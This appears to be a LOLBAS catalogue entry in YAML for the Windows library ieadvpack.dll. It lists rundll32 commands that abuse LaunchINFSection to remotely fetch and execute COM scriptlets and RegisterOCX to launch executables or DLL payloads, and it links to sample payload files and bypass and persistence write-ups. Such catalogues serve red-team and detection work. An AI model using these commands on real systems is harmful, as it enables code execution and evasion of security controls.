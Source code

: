 ```yaml
---
Name: Ieadvpack.dll
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: rundll32.exe IEAdvpack.dll,LaunchINFSection c:\\test.inf,DefaultInstall_SingleUser,1,
    Description: Remote fetch and execute a COM Scriptlet by calling an information file directive (Section name specified).
  - Command: rundll32.exe IEAdvpack.dll,LaunchINFSection test.inf,,1,
    Description: Remote fetch and execute a COM Scriptlet by calling an information file directive (DefaultInstall section implied).
  - Command: rundll32.exe IEAdvpack.dll,RegisterOCX calc.exe
    Description: Launch executable by calling the RegisterOCX function.
  - Command: rundll32.exe IEAdvpack.dll,RegisterOCX test.dll
    Description: Launch a DLL payload by calling the RegisterOCX function.
Full Path:
  - c:\windows\system32\ieadvpack.dll
  - c:\windows\sysWOW64\ieadvpack.dll
Code Sample:
  - https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Advpack.inf
  - https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Advpack_calc.sct
Detection: []
Resources:
  - https://twitter.com/pabraeken/status/991695411902599168
  - https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
  - https://twitter.com/0rbz_/status/974472392012689408
Notes: Thanks to Pierre-Alexandre Braeken - @pabraeken (RegisterOCX - Cmd), Jimmy - @bohops (LaunchINFSection), fabrizio - @0rbz_ (RegisterOCX - DLL)
---
```

